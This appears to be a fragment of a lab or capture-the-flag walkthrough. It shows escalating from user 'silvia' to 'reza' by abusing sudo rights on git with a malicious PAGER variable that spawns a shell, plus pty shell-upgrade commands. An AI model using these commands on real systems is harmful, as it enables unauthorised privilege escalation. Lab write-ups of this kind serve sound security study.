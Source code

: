 <figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(silvia)**

```
python -c 'import pty; pty.spawn("/bin/bash")'
sudo -l
```

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Exploit:**&#x20;

**Victim(silvia)**

```
sudo -u reza PAGER='sh -c "exec sh 0<&1"' git -p help
whoami
python -c 'import pty; pty.spawn("/bin/bash")'
```

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


